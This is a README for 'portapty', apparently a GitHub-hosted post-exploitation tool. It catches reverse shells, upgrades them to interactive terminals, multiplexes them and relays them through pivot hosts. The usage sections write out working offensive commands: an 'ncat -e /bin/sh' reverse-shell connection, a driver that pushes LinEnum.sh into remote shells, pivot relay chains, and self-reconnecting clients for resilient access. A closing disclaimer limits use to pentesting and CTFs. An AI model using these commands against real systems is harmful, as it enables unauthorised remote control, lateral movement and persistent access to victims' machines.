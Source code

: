 # portapty

## What?
This is a portable pseudoterminal reverse shell upgrader and multiplexer
### What?
Portable: works on any linux version that can run this elf type (it's all statically linked and posix compliant)

Pseudoterminal: you can Control-C without killing the shell

Reverse shell: I haven't made it support bind shells yet

Upgrader: When a normal shell connects to it and doesn't try to TLS handshake with it,
it will be upgraded in a posix-compliant manner (this should even work on Linux from scratch boxes)

Multiplexer: multiple shells can connect at once

## Usage
```
portapty {client|server|keygen|relay|expose} OPTIONS
Options:
    client: [cert CERTHASH] to IP PORT [to IP PORT]...
    server: [cert CERTFILE] [key KEYFILE] [driver PATH] [cmd CMD] bind IP PORT [bind IP PORT]...;
    keygen: [cert CERTFILE] [key KEYFILE]
    relay:  bind IP PORT to IP PORT [bind|to IP PORT]...
    expose: [cert CERTFILE] [key KEYFILE] bind IP PORT to IP PORT [{bind|to} IP PORT]...
```
### Server
A simple invocation would be `portapty server eps :: 42069`. This hosts a server on port 42069 that will accept
both standard reverse shells on all IPv4 and v6 addresses (dual to IPv6 dual stacking).

On connection (like by `ncat -e /bin/sh :: 42069`), you will see messages like:
```
[portapty] SuperSecureServer ([::1]:57388) available on /dev/pts/63
```
If you run `screen /dev/pts/63` on this created pty, you will be able to interact with it fully, as if it were an ssh session.

If you had a script you wished to run on the remote, you could try the folowing:

```
portapty server driver 'cat >&2&cat /tmp/LinEnum.sh;echo sleep 1;echo exit;wait' cmd bash eps :: 42069
```

This is good demonstration of the features provided to drivers. Let's break down the shell command argument for driver:
* `cat >&2 &` will grab the output of the remote shell, and pass it to stderr, which is then printed to the server terminal, and then move to the background
* `cat /tmp/LinEnum.sh` will send the script `/tmp/LinEnum.sh` to the remote shell
* `echo sleep 1` sends the command `sleep 1` to the remote shell, giving us time to flush the output before disconnecting
* `echo exit` will tell the remote shell to close
* `wait` will wait for the cat command to finish, which will be when the remote closes
We also can elect to use `bash` rather than the standard shell with the system, which will make most scripts run better.

### Client
It is rather irregular to invoke the client directly, but if you are particularly worried about security, or are working with an arbitrary upload vulnerability, this could be helpful. 

For a simple connection WITHOUT verifying the server, you can use just `portapty client to :: 42069`, but for securing it, you can use:
```
portapty client cert iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo= to :: 42069
```
This will check that the certificate SHA2-256 hash is `iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo=`, and fail if it isn't.

### Keygen
If you have an unstable computer/connection, or are trying some HA system, you may wish to use the `keygen` option. An example is the following:

```
portapty keygen key portapty.key cert portapty.crt
```

This will print the fingerprint as well, so that you can prepare clients before starting the server

The server can be to to use the certificate and key like so:

```
portapty server key portapty.key cert portapty.crt
```
### Relay and expose
This is one of the cooler features of portapty. This acts as a simple TCP forwarder, and so allows pivoting with a central server:

```bash
# Main server
portapty server key portapty.key cert portapty.crt bind 10.0.0.1 42069
# Pivot server
portapty relay bind 192.168.0.1 42069 to 10.0.0.10 42069
# Target server
portapty client cert FinGeRpRInt= to 192.168.0.1 42069
```

Since the client is encrypted end-to-end, this unencrypted relay usage is secure. However, `relay` could also be used as a port forwarder, which would not have encryption. I'm not sure how to encrypt this well bidirectionally: feel free to submit a pull request!

### High availability
The release client has a `while(1)` loop to stop temporary disconnects from messing up your network, and paired with multiple endpoint specifications, this can be used to achieve a very resiliant network.

```
# Relay to the first accepting server
portapty relay bind :: 42069 to 10.0.0.1 42069 to 10.0.0.2 42069
# Connect to the first server that accepts us
portapty client to 10.0.0.1 42069 to 10.0.0.2 42069
# Tell upgraded clients to try multiple addresses (note the repeated ep in bind and advert)
portapty server bind 10.0.0.1 42069 advert 10.0.0.1 42069 advert 10.0.0.2 42069
```

## Disclaimer
Please don't do anything stupid with this (i.e. anything outside pentesting and ctfs). 
It isn't currently on any virus scanners, and I would prefer it to stay that way. 
It has a easy to detect signature, so it ain't stealthy.
